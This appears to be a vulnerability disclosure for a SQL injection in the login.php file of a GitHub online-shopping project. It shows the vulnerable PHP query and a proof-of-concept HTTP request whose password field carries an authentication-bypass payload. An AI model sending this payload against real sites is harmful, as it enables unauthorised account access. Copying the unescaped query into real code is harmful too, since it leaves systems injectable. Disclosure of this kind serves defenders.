 # Surya2Developer / Online_shopping_-system - login.php SQL Injection

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/Surya2Developer/Online_shopping_-system

## Affected Component
> /login.php

## Code
```php
if(isset($_POST["email"]) && isset($_POST["password"])){
	$email = mysqli_real_escape_string($con,$_POST["email"]);
	$password = $_POST["password"];
	$sql = "SELECT * FROM user_info WHERE email = '$email' AND password = '$password'";
	$run_query = mysqli_query($con,$sql);
	$count = mysqli_num_rows($run_query);
    $row = mysqli_fetch_array($run_query);
		$_SESSION["uid"] = $row["user_id"];
		$_SESSION["name"] = $row["first_name"];
		$ip_add = getenv("REMOTE_ADDR");
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /login.php HTTP/1.1
Host: [REDACTED]
Content-Length: 68
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: [REDACTED]
sec-ch-ua-platform: "macOS"
Origin: [REDACTED]
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: [REDACTED]
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED]
Connection: close

email=nochizplz%40nochizplz.com&password=nochizplz'+or+1%3d1+limit+1%23
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/83d29474-9f85-418d-82f5-bdb6a5e23067)
